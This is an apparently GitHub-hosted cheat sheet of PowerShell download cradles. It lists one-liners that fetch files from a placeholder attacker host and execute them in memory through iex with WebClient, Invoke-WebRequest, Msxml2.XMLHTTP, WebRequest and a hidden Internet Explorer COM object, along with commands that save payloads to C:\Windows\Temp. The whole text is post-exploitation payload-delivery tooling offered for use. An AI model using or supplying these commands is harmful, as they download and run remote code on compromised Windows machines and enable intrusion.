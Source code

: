 # Powershell

    powershell -c (new-object System.Net.WebClient).DownloadFile(‘http://<IP>:<port>/<file>,'<Destination>')

    (New-Object System.Net.WebClient).DownloadFile("http://<IP>/<File>", "C:\Windows\Temp\file.ps1")

    Invoke-WebRequest "http://<IP>/<File>" -OutFile "C:\Windows\Temp\File.ps1"

# Standard download cradle

    iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")

# Internet Explorer Downoad cradle

    $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://<IP>/<File>');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

# Requires PowerShell V3+
    iex (iwr 'http://<IP>/<File>')
    iex (iwr 'http://<IP>/<File>' -outfile .\<File> -UseBasicParsing)

    $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://<IP>/<File>',$false);$h.send();iex $h.responseText

OR

    $wr = [System.NET.WebRequest]::Create("http://<IP>/<File>")

    $r = $wr.GetResponse()

    IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
